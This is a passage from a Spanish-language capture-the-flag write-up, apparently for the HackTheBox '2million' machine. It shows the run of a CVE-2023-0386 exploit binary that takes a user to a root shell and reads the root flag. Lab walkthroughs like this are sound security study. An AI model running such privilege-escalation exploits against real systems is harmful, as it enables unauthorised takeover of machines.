[+] len of gc: 0x3ee0
```

Deberemos de disponer de otra nueva terminal, ya que desde esta deberemos de ejecutar el comando `./exp` el cual finalmente obtendremos acceso como `root` y podremos visualizar la flag **root.txt**.

```bash
admin@2million:/tmp/CVE-2023-0386-master$ ./exp
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 Feb 16 23:04 .
drwxrwxr-x 6 root   root     4096 Feb 16 23:04 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386-master# whoami
root
root@2million:/tmp/CVE-2023-0386-master# cat /root/root.txt 
4d832b818337********************
```
